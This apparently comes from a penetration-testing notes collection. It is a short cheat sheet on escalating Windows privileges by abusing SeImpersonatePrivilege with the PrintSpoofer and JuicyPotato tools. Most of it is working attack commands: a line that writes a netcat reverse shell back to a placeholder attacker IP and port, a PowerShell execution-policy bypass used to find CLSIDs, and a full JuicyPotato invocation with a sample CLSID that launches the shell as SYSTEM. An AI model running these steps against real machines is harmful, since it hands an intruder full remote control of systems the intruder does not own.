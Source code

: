 ### SeImpersonatePrivilege

whoami /all (privileges information)

SeImpersonatePrivilege = Enabled

```
Privilege Name                Description                               State   
============================= ========================================= ========
SeTcbPrivilege                Act as part of the operating system       Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```

### Privilege Escalation 1

```Windows 10``` and ```Server 2016```/```2019```

```LOCAL SERVICE```/```NETWORK SERVICE```/```iis apppool\defaultapppool```

Tool:[PrintSpoofer](https://github.com/itm4n/PrintSpoofer)

### Privilege Escalation 2

[JuicyPotato.exe](https://github.com/ohpe/juicy-potato/releases/tag/v0.1)

```cmd
echo C:\Windows\Temp\nc.exe -e cmd.exe <attacker ip> <attacker port> > rev.bat
```

[CLSID](https://github.com/ohpe/juicy-potato/tree/master/CLSID)

```cmd
powershell -ep bypass -f "C:\Windows\Temp\GetCLSID.ps1"
REM test
test_clsid.bat
type result.log
```

```cmd
C:\Windows\Temp\juicypotato.exe -p C:\Windows\Temp\rev.bat -l <attacker port> -t * -c <CLSID>
REM -t createprocess call: <t> CreateProcessWithTokenW, <u> CreateProcessAsUser, <*> try both
REM -p <program>: program to launch
REM -l <port>: COM server listen port
REM example
C:\Windows\Temp\juicypotato.exe -p C:\Windows\Temp\rev.bat -l 4444 -t * -c {e60687f7-01a1-40aa-86ac-db1cbf673334}
```